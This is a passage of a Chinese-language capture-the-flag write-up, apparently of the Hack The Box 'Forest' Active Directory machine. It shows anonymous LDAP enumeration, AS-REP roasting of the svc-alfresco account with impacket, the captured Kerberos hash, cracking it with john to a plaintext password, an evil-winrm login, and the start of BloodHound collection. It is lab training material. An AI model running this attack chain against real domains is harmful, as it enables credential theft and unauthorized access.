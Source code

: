 ![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680260759632-0e954f15-0d52-40bf-a08e-0f90f875bbcf.png#averageHue=%2335352b&clientId=u7548b3dd-f658-4&from=paste&height=118&id=u238cace4&name=image.png&originHeight=147&originWidth=1060&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=228838&status=done&style=none&taskId=ucaf2f4c9-d397-40a2-b495-5eaa9578fbc&title=&width=848)
也显然是没有的
# 三、Ldap匿名访问
因此思路放回ldap服务，既然开启了的话，是非常值得试一下有没有开启匿名访问的
根据nmap探测出的结果可以知道域名为`htb.local`
`ldapsearch -H ldap://10.10.10.161:389 -x -b "dc=htb,dc=local"`
> -x 简单验证，也就是anoymous匿名访问
> -b 指定筛选条件

![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680260932071-7f963f78-4825-4a16-a070-6fd57b3539c4.png#averageHue=%2333322b&clientId=u7548b3dd-f658-4&from=paste&height=96&id=u2c6cf6f3&name=image.png&originHeight=120&originWidth=828&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=171590&status=done&style=none&taskId=uc99ebb23-17c6-4bf2-884e-9812d9947f2&title=&width=662.4)
# 四、离线哈希爆破
茫茫人海可以瞟到svc-alfresco这个用户，google检索一波alfresco可以发现有趣的东西：
> Process Services is an enterprise Business Process Management (BPM) solution targeted at business people and developers. At its core is a high performance open-source business process engine based on Activiti with the flexibility and scalability to handle a wide variety of critical processes. Process Services provides a powerful suite of end user tools and integrates with a range of enterprise systems, including Alfresco Content Services, Box and Google Drive.
> Process Services 是一种针对业务人员和开发人员的企业业务流程管理 (BPM) 解决方案。 其核心是基于 Activiti 的高性能开源业务流程引擎，具有处理各种关键流程的灵活性和可扩展性。 Process Services 提供了一套功能强大的最终用户工具，并与一系列企业系统集成，包括 Alfresco Content Services、Box 和 Google Drive。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680260993039-38aa6640-4321-4fb1-bc7e-fb2131a5d114.png#averageHue=%23fdfdfc&clientId=u7548b3dd-f658-4&from=paste&height=727&id=ua610454e&name=image.png&originHeight=909&originWidth=1424&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=109114&status=done&style=none&taskId=u40dd48b3-73c4-40f8-af74-b5d9e5003a3&title=&width=1139.2)
这个服务对应的用户需要关闭kerberos的身份预验证服务
**有关kerberos协议的内容请自行去查看，网上很多，这个也是域渗透的基础**
当关闭了预身份验证后，攻击者可以使用指定用户去请求票据，此时域控不会作任何验证就将 TGT票据 和 该用户Hash加密的Session Key返回。因此，攻击者就可以对获取到的 用户Hash加密的Session Key进行离线破解，如果破解成功，就能得到该指定用户的密码明文。
使用这个工具包下的模块获取TGT票据：[https://github.com/fortra/impacket](https://github.com/fortra/impacket)
拿到kali后在setup.py文件所在地先`pip install .`将py文件全部变为模块，以后就可以直接`xx.py`使用
`GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass`
获取到票据后保存到文件
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ea889f8edb24751d735ffda00e6cff9f$534acd4d2abb6a071348a94f5263de0b6b0e46232fd890baabbca96b6ffe14941b61429c33581169c4ded4054d100acb6329ff4dbe2b8acfb8236896e79a549fd92803281118fa9df252883ca317fae2785f2a61337a68f12649b5bb646e1945503cc11dff113cb01e896189e233f6d05fdb85fe789f924cb890bae08cbac29b3062696df1c1cc0d909777ea54d94d5d8d0a22b4bdc18cefe2bb6f6b397c1856e42dfcbc9af2185c6d964464baa1d9b24634c37ab129b827798aeb60478235577ab44c9565fa4c1621da0a630c662a66173872ae74660114688a1964107c52ef7961d4ff47e6
```
随之用john工具对其进行rock
`john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt`
由于john有缓存
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680261788269-151519df-4334-4026-b32b-2ad86524df39.png#averageHue=%2322231e&clientId=u7548b3dd-f658-4&from=paste&height=80&id=udadd31f0&name=image.png&originHeight=100&originWidth=732&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=93405&status=done&style=none&taskId=u87448e69-d6c4-46aa-9a87-ca5b20da8ba&title=&width=585.6)
可以看到密码为`s3rvice`知道用户的密码后就好说了，直接上`evil-winrm`去远程连接即可
` evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680261845197-f9ee2297-c57a-44ef-b4f2-e467b08ec478.png#averageHue=%2321211d&clientId=u7548b3dd-f658-4&from=paste&height=46&id=ufa74d3f8&name=image.png&originHeight=58&originWidth=618&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=59671&status=done&style=none&taskId=u6573c806-7714-4b8f-b022-bc699dc4be0&title=&width=494.4)
随后在desktop下发现user.txt，至此获取user权限

# 五、AD域渗透权限提升
这个我觉得也是全篇最难的地方，也是知识点最多的地方。。
## （1）BloodHound信息搜集
FirstofAll，windows权限提升是有一款专门的工具叫做猎犬：`BloodHound`
这个工具和tabby对标，tabby是找链子，BloodHound则是找最短获得System权限的路径，他们都是基于neo4j数据库进行逻辑分析的
这里首推kali中的`bloodhound-python`，运行`pip install bloodhound`
之后使用`bloodhound-python -d htb.local -usvc-alfresco -p s3rvice`去手机信息
> -d domain
> -u username
> -p password
